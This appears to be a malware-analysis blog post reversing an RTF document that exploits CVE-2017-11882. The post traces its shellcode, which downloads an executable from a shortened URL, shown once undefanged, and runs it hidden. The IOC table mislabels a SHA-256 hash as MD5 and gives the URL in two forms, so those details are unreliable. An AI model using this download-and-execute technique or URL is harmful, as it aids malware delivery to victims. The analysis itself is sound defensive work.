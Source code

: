 ```yaml
---
title: RTF Exploit
date: 2025-08-30
categories:
  - Malware Analysis
  - Reports
tags:
  - cve-2017-11882
toc: "true"
---
```

The suspicious sample under analysis is an **RTF document** designed to embed and execute malicious OLE objects. As with any document-based malware, the first step is to calculate its hashes and collect metadata for identification.

| Field         | Value                                                            |
| ------------- | ---------------------------------------------------------------- |
| **File Type** | RTF Document                                                     |
| **MD5**       | 2fd300bd01ea3d00ea59d4e1d47056a0                                 |
| **SHA-1**     | d8747407679055deee5bafaac281bdac52274da2                         |
| **SHA-256**   | 2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762 |
| **File Size** | 1.02 MB (1065166 bytes)                                          |

Once submitted to **VirusTotal**, the sample showed a high detection ratio, flagged by multiple antivirus engines as containing an embedded OLE exploit.

![[assets/img/posts/malware/rtf-malware/virustotal.png]]

Static inspection confirmed that the RTF contained at least one **suspicious OLE object**. This hinted that the exploit would likely rely on embedded shellcode delivered via OLE streams.

### Extracting the OLE Object

We used **rtfobj.py** to scan the malicious RTF document and extract any embedded OLE streams:

```powershell
C:\Users\vboxuser\Desktop>python "C:\Users\vboxuser\Desktop\Tools\Documents
oletools-0.60.2\oletools\rtfobj.py" 
"C:\Users\vboxuser\Desktop\Master\Tarea3
2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762.rtf" 
-s 0 -d C:\Users\vboxuser\Desktop\Master\Tarea3
```

The output revealed a malformed OLE object at offset `0x000FC3E7`, which was dumped as:

```
...rtf_object_000FC3E7.raw (md5: 2fe51e42ac2a4a52d1855e21620e9c6f)
```

![rtfobj.png](/assets/img/posts/malware/rtf-malware/rtfobj.png)

One check to **VirusTotal**, the sample showed a high detection ratio, flagged by multiple antivirus engines as containing an exploit for a 2017 CVE.

![[virustotal-raw.png]]

| Field         | Value                                                            |
| ------------- | ---------------------------------------------------------------- |
| **File Type** | Data                                                             |
| **MD5**       | 2fe51e42ac2a4a52d1855e21620e9c6f                                 |
| **SHA-1**     | af8eda0e5881952b5828d143de1bd45ced8f8717                         |
| **SHA-256**   | 280a7cce75f5ee71a2ff025efdc059a7d85a4de13292aa342f71e186876a93fb |
| **File Size** | 1.34 KB (1372 bytes)                                             |
## Shellcode Analysis with `scdbg`

The extracted OLE object contained embedded shellcode. To better understand its behavior, we emulated the payload using **scdbg**.

Execution began at offset `0x7C` (VA `0x40107C`) with the following instructions:

```
40107C   42      inc edx
40107D   19F9    sbb ecx,edi
40107F   0BE1    or esp,ecx
401081   F8      clc
401082   793B    jns 0x4010BF
```

This sequence rearranges registers in preparation for deobfuscation.

During execution, the shellcode dynamically resolved several Windows APIs, a common tactic to avoid static detection. The following calls were observed:

- `GetProcAddress(ExpandEnvironmentStringsW)`
- `ExpandEnvironmentStringsW(%PUBLIC%\908.exe, dst=12fbd0, sz=104)`
- `LoadLibraryW("UrlMon")`
- `GetProcAddress(URLDownloadToFileW)`
- `URLDownloadToFileW("http://bit.ly/34vzFlU", "C:\Users\Public\908.exe")`
- `LoadLibraryW("oleaut32")` and `GetProcAddress(SysAllocString)`

![scdbg.png](/assets/img/posts/malware/rtf-malware/scdbg.png)

This confirms the shellcode’s functionality: it constructs a destination path in `%PUBLIC%`, downloads a remote executable from a shortened URL, and prepares it for execution.

## Reversing the Shellcode

To deepen the analysis, we manually reversed the shellcode to better understand its structure and techniques. As expected, the code follows the typical pattern of most download-and-execute shellcodes, but with some tricks to hinder analysis: it is position-independent and padded with junk instructions.

When loaded into **IDA**, some sections were misinterpreted as code or data. To fix this, we had to manually redefine certain areas, step through execution instruction by instruction, and set breakpoints until the flow became clear.

The shellcode can be divided into three main sections:

1. **Garbage padding** (`0x0000–0x007B` and `0x010E–0x02BB`)  
    Random bytes, `int 3`, `hlt`, and assorted `db`/`dw` instructions that IDA failed to properly disassemble. These do not execute if the **EIP** lands correctly.
    
2. **Executable junk & jump** (`0x007C–0x0108`)  
    Useless obfuscation loops and a final `jmp 0x02BC` redirecting execution to the real payload.
    
3. **Payload** (`0x02BC–0x0558`)  
    The real malicious logic: stack setup, manual API resolution, downloading an executable, and launching it in the background.
    

![peb.png](/assets/img/posts/malware/rtf-malware/peb.png)

Once the flow was reconstructed, we saw the shellcode walking the **PEB (`fs:[30h]`)** to locate `kernel32.dll`. From there, it invoked a custom implementation of `GetProcAddress` to resolve its APIs:

```
LoadLibraryW
ExpandEnvironmentStringsW
UrlDownloadToFileW
WinExec
ExitProcess
```

![sub498.png](/assets/img/posts/malware/rtf-malware/sub498.png)

The function responsible for string comparisons (`sub_498`) performed case-insensitive matching in wide-char, converting characters on the fly with a simple `xor ax, 0x20` whenever the character was between `'A'` and `'Z'`. This allowed the shellcode to reliably resolve function names without depending on exact casing.

Once the API resolution was complete, execution moved into the **download phase**. First, the destination path was constructed using `ExpandEnvironmentStringsW` as `%PUBLIC%\908.exe`. Next, the URL (`hxxp://bit.ly/34vzFU`) was pushed onto the stack in fragmented form, hidden across multiple `push` instructions. Finally, the shellcode invoked `UrlDownloadToFileW(NULL, url, destino, 0, NULL)` to retrieve the binary, proceeding only if the call returned `S_OK`.

If the download succeeded, the **execution phase** began: the binary was launched silently with `WinExec(destino, SW_HIDE)`, and the shellcode immediately terminated the current process with `ExitProcess(0)`.

Overall, more than half of the shellcode turned out to be padding and obfuscation, while the actual functionality resided in a compact position-independent loader. Its role was simple but effective: dynamically resolve APIs, construct the target path, download a remote executable, and execute it quietly before exiting. By setting the instruction pointer directly to `0x02BC`, analysts can skip all the junk code and observe the core payload in action. The main difficulty during reversing was correcting IDA’s misinterpretations caused by the interleaving of junk instructions and data, which required manual adjustments to accurately follow the control flow.

## Indicators of Compromise (IOCs)

The following IOCs were extracted from the RTF malware sample:

| Type               | Value                                                                       |
| ------------------ | --------------------------------------------------------------------------- |
| **MD5 (RTF)**      | `2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762`          |
| **OLE Object MD5** | `2fe51e42ac2a4a52d1855e21620e9c6f`                                          |
| **Dropped File**   | `%PUBLIC%\908.exe`                                                          |
| **Malicious URL**  | `hxxp://bit.ly/34vzFU`                                                      |

